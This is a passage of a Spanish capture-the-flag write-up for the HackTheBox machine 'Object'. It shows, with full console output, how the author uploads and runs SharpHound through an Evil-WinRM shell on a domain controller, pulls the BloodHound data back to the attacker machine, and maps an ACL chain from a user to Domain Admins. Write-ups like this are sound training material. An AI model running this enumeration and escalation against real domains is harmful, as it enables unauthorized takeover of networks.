 Al ver las reglas de firewall, se había reportado también que estoy ante un DC, por lo que puedo utilizar ```BloodHound``` para encontrar formas de escalar privilegios

Utilizo como ingestor ```SharpHound.ps1```

```null
*Evil-WinRM* PS C:\Temp> upload /opt/SharpHound.ps1
Info: Uploading /opt/SharpHound.ps1 to C:\Temp\SharpHound.ps1

                                                             
Data: 1297764 bytes of 1297764 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Temp> Import-Module .\SharpHound.ps1
*Evil-WinRM* PS C:\Temp> Invoke-BloodHound -c All
Parameter cannot be processed because the parameter name 'c' is ambiguous. Possible matches include: -CollectionMethod -ComputerFile -CacheFileName -CollectAllProperties.
*Evil-WinRM* PS C:\Temp> Invoke-BloodHound -CollectionMethod All
*Evil-WinRM* PS C:\Temp> dir


    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/14/2023   8:33 AM           9026 20230214083343_BloodHound.zip
-a----        2/14/2023   8:33 AM          10043 MWU2MmE0MDctMjBkZi00N2VjLTliOTMtYThjYTY4MjdhZDA2.bin
-a----        2/14/2023   8:32 AM         973325 SharpHound.ps1

*Evil-WinRM* PS C:\Temp> download C:\Temp\20230214083343_BloodHound.zip /home/rubbx/Desktop/HTB/Machines/Object/bh.zip
Info: Downloading C:\Temp\20230214083343_BloodHound.zip to /home/rubbx/Desktop/HTB/Machines/Object/bh.zip

                                                             
Info: Download successful!
```

El usuario ```oliver``` tiene ForceChangePassword sobre que ```smith```, puede hacer GenericWrite sobre  ```maria```, que a su vez tiene WriteOwner sobre ```Domain Admins```
